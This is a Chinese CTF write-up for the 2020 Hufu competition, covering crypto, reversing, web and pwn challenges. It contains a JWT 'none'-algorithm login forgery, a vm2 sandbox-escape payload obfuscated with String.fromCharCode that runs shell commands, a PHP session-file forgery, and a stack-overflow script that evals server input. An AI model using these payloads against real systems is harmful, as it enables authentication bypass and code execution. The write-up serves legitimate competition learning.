









# 2020 虎符网络安全赛道

苟进决赛

## 签到题

打开网页之后查看源码即可拿到flag

## GM

参考类似的题目[Cat Sharing](https://ctftime.org/writeup/16120)

得出`pq=N`，`p+q=N-phi+1` => `p=(n-phi+1-((n-phi+1)^2-4*n).nth_root(2))//2`

用sagemath写两个脚本

```python
phi=...
n=...
p=(n-phi+1-((n-phi+1)^2-4*n).nth_root(2))//2
q=n//p
print(p)
print(q)
print(n == p*q)
```

```python
Fp=Integers(p)
flag = ...
f2=[0 if Fp(f).is_square() else 1 for f in flag]
print(hex(int('0'+''.join(str(i) for i in f2),2)))
```

## easy_login

nodejs web服务，提示说将静态资源映射到了网站根目录，所以直接下载`package.json`，获得项目文件，下载`app.js`获取主程序。经过分析，发现是一个koa的web框架，下载被包含的文件`rest.js`，`controller.js`

在`controller.js`中发现是通过遍历`controllers`加载controller，这里需要猜一下controller的名字，经过一番尝试之后发现是`api.js`

在`api.js`中发现获取flag的方法，需要将`ctx.session.username`设置为**admin**，再去看登录的逻辑

```js
const sid = JSON.parse(Buffer.from(token.split('.')[1], 'base64').toString()).secretid;
if(sid === undefined || sid === null || !(sid < global.secrets.length && sid >= 0)) {
    throw new APIError('login error', 'no such secret id');
}
const secret = global.secrets[sid];
const user = jwt.verify(token, secret, {algorithm: 'HS256'});
```

sid是由JWT直接base64解码得到的，我们可以控制，下面有一个条件`!(sid < global.secrets.length && sid >= 0)`，根据js的特性，当我们可以将sid置为`false`，即可绕过这个判断，使`secret`为`undefined`。
jwt.verify这个函数在第二个参数为空时，会允许NONE方法的解密，至此我们构造出一下payload

```js
jwt.sign({"secretid": false,"username": "admin","password": "123456"},"",{algorithm:"none"})
```

将伪造的token发给服务器登录，即可将`ctx.session.username`置为`admin`，从而获取flag

## just_escape

一个为装成php的node，试几下就能发现
打一个`new Error().stack`，能看到调用栈
```
Error
    at vm.js:1:1
    at ContextifyScript.Script.runInContext (vm.js:59:29)
    at VM.run (/usr/src/app/node_modules/vm2/lib/main.js:219:62)
    at /usr/src/app/server.js:51:33
    at Layer.handle [as handle_request] (/usr/src/app/node_modules/express/lib/router/layer.js:95:5)
    at next (/usr/src/app/node_modules/express/lib/router/route.js:137:13)
    at Route.dispatch (/usr/src/app/node_modules/express/lib/router/route.js:112:3)
    at Layer.handle [as handle_request] (/usr/src/app/node_modules/express/lib/router/layer.js:95:5)
    at /usr/src/app/node_modules/express/lib/router/index.js:281:22
    at Function.process_params (/usr/src/app/node_modules/express/lib/router/index.js:335:12)
```
发现是一个vm2的沙箱，经过搜索发现这个沙箱存在很多逃逸，但是需要确定版本，根据`VM.run (/usr/src/app/node_modules/vm2/lib/main.js:219:62)`,这个函数所在的行，确定版本为`3.8.5`

在github上面找到一个能用逃逸[payload](https://github.com/patriksimek/vm2/issues/225)

因为存在一些关键词过虑，所以用`String.fromCharCode`绕过

```js
TypeError.prototype.get_process = f=>f.constructor("return process")();
try{
    Object.preventExtensions(Buffer.from("")).a = 1;
}catch(e){
    e.get_process(()=>{}).mainModule.require("child_process").execSync("cat /flag").toString();
}

TypeError[String.fromCharCode(112,114,111,116,111,116,121,112,101)][String.fromCharCode(103,101,116,95,112,114,111,99,101,115,115)] = f=>f[String.fromCharCode(99,111,110,115,116,114,117,99,116,111,114)](String.fromCharCode(114,101,116,117,114,110,32,112,114,111,99,101,115,115))();
try{
    Object.preventExtensions(Buffer.from(String())).a = 1;
}catch(e){
    e[String.fromCharCode(103,101,116,95,112,114,111,99,101,115,115)](()=>{}).mainModule.require(String.fromCharCode(99,104,105,108,100,95,112,114,111,99,101,115,115))[String.fromCharCode(101,120,101,99,83,121,110,99)](String.fromCharCode(99,97,116,32,47,102,108,97,103)).toString();
}

```

## babyupload

这道题是一道 PHP 的上传下载和 PHP Session 的一些特性利用。

1. PHP 的 Session 文件名字为 `sess_{PHPSESSIONID}`，然后使用 `direction=download&attr=.&filename=sess_1dedea760dd5cfb924b1a3899f8c9c6e` 三个参数进行 POST 请求，将整个页面拖下来之后，用二进制将前面 `<code></code>` 部分的代码高亮删掉，保存成名字为 `sess` 的文件。

2. 使用二进制修改 `sess` 文件，将 `guest` 改为 `admin`。



3. 之后使用 `direction=upload&up_file=sess&attr=.`，将这个文件 `POST` 上去。

4. 使用 PHP 的 hash_file() 将这个 `sess` 文件计算出来的 `sha256` 拿到，得到 `432b8b09e30c4a75986b719d1312b63a69f1b833ab602c9ad5f0299d1d76a5a4`。

5. 再次使用 `download` 检查文件是否成功上传，参数为 `direction=download&attr=.filename=sess_432b8b09e30c4a75986b719d1312b63a69f1b833ab602c9ad5f0299d1d76a5a4`。



6. 因为 `file_exists` 方法可以同时检查文件夹或文件是否存在，且 `upload` 方法里面的 `dir_path` 可以直接通过 `attr=success.txt` 来创造一个 `/var/babyctf/success.txt/` 的文件夹骗过 `file_exists` 函数。再次上传。
7. 将 Cookie 的 `PHPSESSIONID` 替换成上面算出来的 sha256，切换为 `admin` 登录。
8. 再次访问页面，即可直接拿到 flag：`flag{7522dfe5-af1e-4c05-8c38-5c08c8bfac4e}`



## game

将disasm.txt中的python字节码反汇编结果转换为python源码，发现前三个check函数分别进行了如下检查：
1. 所有字符在[32,128]范围内
2. 输入字符串的长度为39（根据给出的条件爆破）
3. 前六个字符和最后一个字符分别为"flag{5" "}"  

check3函数分为三部分，第一部分将切片[6:30:3]字符运算后与arr0列表比较，爆破之；第二部分将切片[7:27]与[-2:33:-1] * 5异或之后与arr1列表比较，根据第一部分求得的元素推断[-2:33:-1]的内容，然后求剩下的；第三部分将切片[28:34]中的字符进行两种运算之后与arr2列表中的两个元素比较，爆破之。

```python
arr0 = [249, 91, 149, 113, 16, 91, 53, 41]
arr1 = [43, 1, 6, 69, 20, 62, 6, 44, 24, 113, 6, 35, 0, 3, 6, 44, 20, 22, 127, 60]
arr2 = [90, 100, 87, 109, 86, 108, 86, 105, 90, 104, 88, 102]

def check0(s):
    return all(ord(x) in range(32, 128) for x in s)

def check1(s):
    if ((len(s) < 100) and (len(s) * len(s) % 777 ^ 233 == 513)):
        return True
    else:
        return False

def check2(s):
    if (((((ord(s[0]) * 128 + ord(s[1])) * 128 + ord(s[2])) * 128 + ord(s[3])) * 128 + ord(s[4])) * 128 + ord(s[5]) == 3533889469877L and ord(s[-1]) == 125):
        return True
    else:
        return False

def check3(s):
    arr = map(ord, s)
    a = arr[6:30:3]
    for i in range(len(a)):
        if (a[i] * 17684 + 372511) % 257 != arr0[i]:
            return False
    b = arr[-2:33:-1] * 5  #!!! -1
    c = map(lambda x: x[0] ^ x[1], zip(b, arr[7:27]))
    if (c != arr1):
        return False
    p = 0
    for i in range(28, 34):
        if (arr[i] + 107) / 16 + 77 != arr2[p] or (arr[i] + 117) % 16 + 99 != arr2[p + 1]:
            return False
        p += 2
    return True

flag = raw_input()
if (check0(flag) and check1(flag) and check2(flag) and check3(flag)):
    print 'ok'
else:
    print 'no'
```

## enc
程序流程：程序生成一数对177取模之后设置为随机数种子，然后生成一个DWORD大小的随机数，由标准的MD5算法生成这个DWORD(padding之后)的MD5值，这个MD5值的16进制字符串被用作后面加密算法的密钥。  
程序打开从命令行提供的文件，读取16字节，将之执行三部分操作后写入到文件名+.enc文件中，其中第二第三步操作比较简单，将字符串逐位与下标异或，然后连续两字节交换位置。    
加密核心部分对4个DWORD长度的flag字符串进行了多轮操作,分析后发现这些操作均可逆，根据加密函数对应的写出解密函数即可。   
最后的问题，程序加密密钥为随机生成，但是范围很有限，循环种子0到177然后生成随机数进而生成加解密密钥。
```C
unsigned fun(unsigned i){
    return i*(2*i+1);
}
...
unsigned f0,f1,f2,f3,t0,t1;
f0 -= k[42];
f2 -= k[43];
for(int i=20;i!=0;i--){
    t1 = f1 -k[2*i+1];
    t0 = f3 -k[2*i];
    f1 = f0;
    f3 = f2;
    f0 = ROR_(t0,ROL_(fun(f3),5u))^ROL_(fun(f1), 5u);
    f2 = ROR_(t1,ROL_(fun(f1),5u))^ROL_(fun(f3), 5u);
}
f1 -= k[0];
f3 -= k[1];
```
解密程序
```c
#include <stdio.h>
#include <memory.h>
#include <stdint.h>
#define _lrotr(v,c) (((v)>>(c)) | ((v)<<(32-(c))))
#define _lrotl(v,c) (((v)<<(c)) | ((v)>>(32-(c))))
#define __ROL4__(v,c) ((((unsigned)(v))<<(c)) | (((unsigned)(v))>>(32-(c))))
#include "md5.h"
unsigned fun(unsigned i){
    return i*(2*i+1);
}

unsigned int k[44]={0x1234567};

/*{0x1B17F58B, 0xF3A9CB58, 0xDCC23693, 0x4947F92C,
0xFFFBAE47, 0xE06D22D8, 0xB0012F12, 0x98ED0B45,
0xBAD93F94, 0xFB6E2AE2, 0x8351D0FE, 0x262F86D7,
0xCB852A8A, 0x5675FFD5, 0xF5CD04B1, 0x690F29AE,
0x5D7E5547, 0x0BFF7122, 0x75C71FC3, 0xEFA62BB6,
0xDAA26D96, 0x57087FD5, 0x790B3D65, 0x1D4CC72D,
0x779BE378, 0xE1C244D1, 0xD27C9B0B, 0x404B4494,
0xE0046352, 0x0FC8841B, 0x431A506D, 0x26C600FB,
0x00010E6C, 0xB043AB72, 0x29D36778, 0x4EEC1B08,
0xC950EC55, 0x93354F47, 0x00BA494B, 0xF65A5B44,
0x300C2A5F, 0x4B2A92B3, 0x7DD2A4FD, 0xC9F9C4E0,};*/
    unsigned int 
    f0 = 0xB972C976,
    f1 = 0xEE97B551,
    f2 = 0x78C6A7C8,
    f3 = 0x2B8E88BA,
    f4 = 0;
int decode(){
    /* 
    {
    f0 = 0x1000000;f1=0x2000000;f2=0x3000000;f3=0x4000000;
    unsigned t0,t1;
    f1+=k[0];
    f3+=k[1];
    printf("%08x %08x %08x %08x\n",f0,f1,f2,f3);
    for(int i=1;i<=20;i++){
        t0 = _lrotl((f0^_lrotl(fun(f1), 5)),_lrotl(fun(f3),5));
        t1 = _lrotl((f2^_lrotl(fun(f3), 5)),_lrotl(fun(f1),5));
        printf("%08x %08x |%08x %08x |",fun(f1),fun(f3),_lrotl(fun(f1),5),_lrotl(fun(f3),5));
        f0 = f1;
        f2 = f3;
        f1 = k[2*i+1]+t1;
        f3 = k[2*i] +t0;
        printf("%08x %08x | %08x %08x %08x %08x\n",t0,t1,f0,f1,f2,f3);
    }
    f0+= k[2*20+2];
    f2+= k[2*20+3];
    printf("%08x %08x %08x %08x\n",f0,f1,f2,f3);}*/
   unsigned t0,t1;
    f0 -= k[42];
    f2 -= k[43];
for(int i=20;i!=0;i--){
    t1 = f1 -k[2*i+1];
    t0 = f3 -k[2*i];
    f1 = f0;
    f3 = f2;
    f0 = _lrotr(t0,_lrotl(fun(f3),5u))^_lrotl(fun(f1), 5u);
    f2 = _lrotr(t1,_lrotl(fun(f1),5u))^_lrotl(fun(f3), 5u);
    //printf("%08x%08x%08x%08x\n",f0,f1,f2,f3);
}
f1 -= k[0];
f3 -= k[1];
printf("\n\n%08x%08x%08x%08x : %16s\n",f0,f1,f2,f3,(const char *)&f0);
return 0;
}

int main(){
    int w;
    for(int i =0;i!=0x7FF;i++)
    {
        w = 0x343FD*i+0x269EC3;
        w = (w>>16)&0x7FF;
        //w = i;

	    unsigned char output[16];
        unsigned char c_md5[33]={0};
	    MD5_CTX md5;
	    MD5Init(&md5);
        MD5Update(&md5,(unsigned char *)&w,4);
	    MD5Final(&md5,output);
        
        k[0] = 0x1234567;
        for(int j=1;j!=44;j++)
            k[i] = k[i-1] - 0x76543211;
        for(int j=0;j!=16;j++)
            sprintf(c_md5+2*j,"%02x",output[j]);
        //puts(c_md5);

  int *v4; // eax
  unsigned char v5; // dl
  signed int v6; // ecx
  unsigned char v7; // bl
  unsigned int v8; // edx
  int v9; // edi
  int v10; // ebx
  int v27; // [esp+10h] [ebp-14h]
  int *_md5; // [esp+14h] [ebp-10h]
  int v33; // [esp+1Ch] [ebp-8h]
  unsigned char v35; // [esp+23h] [ebp-1h]
 _md5 =  (int *)c_md5;
    v4 = k;
  v5 = 1;
  v6 = 1;
  *v4 = 0x1234567;
  do
  {
    ++v5;
    k[v6] = k[v6 - 1] - 0x76543211;
    v7 = (20);
    v6 = v5;
  }
  while ( v5 <= 2 * (unsigned int)v7 + 3 );
  v8 = 0;
  v27 = 0;
  v33 = 0;
  v35 = 1;
  if ( 2 * (3 * (unsigned int)v7 + 6) >= 1 )
  {
    v9 = 0;
    do
    {
      v10 = __ROL4__(v27 + v33 + k[(unsigned char)v8], 3);
      k[(unsigned char)v8] = v10;
      v27 = v10;
      v33 = __ROL4__(v10 + v33 + _md5[v9], v10 + v33);
      _md5[v9] = v33;
      v7 = (20);
      v9 = ((char)v9 + 1) & 7;
      v8 = ((unsigned int)(unsigned char)v8 + 1) % (2 * (unsigned int)v7 + 4);
      ++v35;
    }
    while ( v35 <= 6 * ((unsigned int)v7 + 2) );
  }
//////
f0 = 0x5C13EDAE;
f1 = 0x74A1D2BD;
f2 = 0x025E4C9C;
f3 = 0x609B28D3;

f0=0x105eafed;
f1=0xa672b8d6;
f2=0x55089544;
f3=0x946ede24;
decode();

    }
    return 0;
}
```

## count



看一眼，发现是aarch64的程序



需要200轮表达式计算，二话不说eval





拖进鸡爪，就是个栈溢出覆盖局部变量，判断成功直接就system("/bin/sh")



话不多说，直接暴力覆盖就好了



主要代码:

```python
for i in range(200):
    p.recvuntil("Math: ")
    p.sendline(str(eval(p.recvuntil("=")[:-2])))
    p.recvline()
p.send(p32(0x12235612)*28)
p.interactive()
```

